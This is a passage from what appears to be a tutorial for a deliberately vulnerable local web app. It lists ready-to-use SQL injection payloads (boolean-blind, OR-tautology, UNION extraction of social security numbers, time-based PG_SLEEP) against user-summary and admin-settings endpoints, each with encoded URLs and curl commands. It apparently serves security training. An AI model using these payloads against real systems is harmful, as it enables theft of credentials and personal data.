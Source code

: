 #### Payload 3: Blind Boolean-Based Injection
- **Username**: `admin' AND (SELECT LENGTH(setting_value) FROM admin_settings WHERE setting_key = 'database_password') > 20 -- `
- **URL**: `http://localhost:3000/api/user-summary/admin%27%20AND%20(SELECT%20LENGTH(setting_value)%20FROM%20admin_settings%20WHERE%20setting_key%20=%20%27database_password%27)%20>%2020%20--%20`
- **Resulting Query**: `SELECT * FROM user_summary WHERE username = 'admin' AND (SELECT LENGTH(setting_value) FROM admin_settings WHERE setting_key = 'database_password') > 20 -- `
- **Effect**: Returns data if the `database_password` value is longer than 20 characters (true for `super_secret_db_pass_2024!`).
- **How to Test**:
  1. Enter the payload in the frontend and click "Fetch User Summary."
  2. If the admin’s summary is returned, the condition is true; if empty, it’s false.
  3. Use `curl` to verify.

### 5. Admin Settings Endpoint (`GET /api/admin-settings/:key`)
- **Input Field**: `key` (URL parameter)
- **Vulnerable Query**: `SELECT * FROM admin_settings WHERE setting_key = '${key}'`
- **Goal**: Extract sensitive configuration data.

#### Payload 1: Retrieve All Settings
- **Key**: `database_password' OR '1'='1`
- **URL**: `http://localhost:3000/api/admin-settings/database_password%27%20OR%20%271%27=%271`
- **Resulting Query**: `SELECT * FROM admin_settings WHERE setting_key = 'database_password' OR '1'='1'`
- **Effect**: Returns all rows from `admin_settings`, exposing sensitive data like `database_password`, `api_secret_key`, and `payment_gateway_secret`.
- **How to Test**:
  1. Send the request via `curl`:
     ```bash
     curl "http://localhost:3000/api/admin-settings/database_password%27%20OR%20%271%27=%271"
     ```
  2. Check the response for all settings (e.g., `database_password`, `api_secret_key`).
  3. Use Burp Suite to inject the payload into a frontend request.

#### Payload 2: Union-Based Data Extraction
- **Key**: `database_password' UNION SELECT 1, social_security_number, 'fake_value', false, 'Hacked', 1, CURRENT_TIMESTAMP FROM user_profiles -- `
- **URL**: `http://localhost:3000/api/admin-settings/database_password%27%20UNION%20SELECT%201,social_security_number,%27fake_value%27,false,%27Hacked%27,1,CURRENT_TIMESTAMP%20FROM%20user_profiles%20--%20`
- **Resulting Query**: `SELECT * FROM admin_settings WHERE setting_key = 'database_password' UNION SELECT 1, social_security_number, 'fake_value', false, 'Hacked', 1, CURRENT_TIMESTAMP FROM user_profiles -- `
- **Effect**: Returns social security numbers from `user_profiles` formatted as admin settings.
- **How to Test**:
  1. Send the request via `curl` or a browser.
  2. Check the response for values like `123-45-6789` in the `setting_key` field.
  3. Use a proxy to modify a frontend request.

#### Payload 3: Time-Based Blind Injection
- **Key**: `database_password' AND (SELECT PG_SLEEP(5)) -- `
- **URL**: `http://localhost:3000/api/admin-settings/database_password%27%20AND%20(SELECT%20PG_SLEEP(5))%20--%20`
- **Resulting Query**: `SELECT * FROM admin_settings WHERE setting_key = 'database_password' AND (SELECT PG_SLEEP(5)) -- `
- **Effect**: Delays the response by 5 seconds, confirming the vulnerability.
- **How to Test**:
  1. Send the request via `curl` with timing:
     ```bash
     time curl "http://localhost:3000/api/admin-settings/database_password%27%20AND%20(SELECT%20PG_SLEEP(5))%20--%20"
     ```